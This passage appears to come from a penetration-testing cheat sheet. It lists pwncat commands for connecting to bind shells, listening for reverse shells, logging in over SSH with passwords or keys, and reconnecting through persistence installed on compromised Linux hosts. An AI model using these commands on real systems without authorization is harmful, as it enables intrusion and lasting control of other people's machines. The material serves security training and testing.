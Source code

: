 ```bash
# logout
logout

# close script session
Ctrl + D
```

## Scripts

- [pwncat](https://github.com/calebstewart/pwncat) - pwncat is a post-exploitation platform for Linux targets

    ```bash
    cd ~/tools
    source pwncat-env/bin/activate

    # Connect to a bind sheql
    pwncat connect://10.10.10.10:4444
    pwncat 10.10.10.10:4444
    pwncat 10.10.10.10 4444
    # Listen for reverse shell
    pwncat bind://0.0.0.0:4444
    pwncat 0.0.0.0:4444
    pwncat :4444
    pwncat -lp 4444
    # Connect via ssh
    pwncat ssh://user:password@10.10.10.10
    pwncat user@10.10.10.10
    pwncat user:password@10.10.10.10
    pwncat -i id_rsa user@10.10.10.10
    # SSH w/ non-standard port
    pwncat -p 2222 user@10.10.10.10
    pwncat user@10.10.10.10:2222
    # Reconnect utilizing installed persistence
    #   If reconnection failes and no protocol is specified,
    #   SSH is used as a fallback.
    pwncat reconnect://user@10.10.10.10
    pwncat reconnect://user@c228fc49e515628a0c13bdc4759a12bf
    pwncat user@10.10.10.10
    pwncat c228fc49e515628a0c13bdc4759a12bf
    pwncat 10.10.10.10
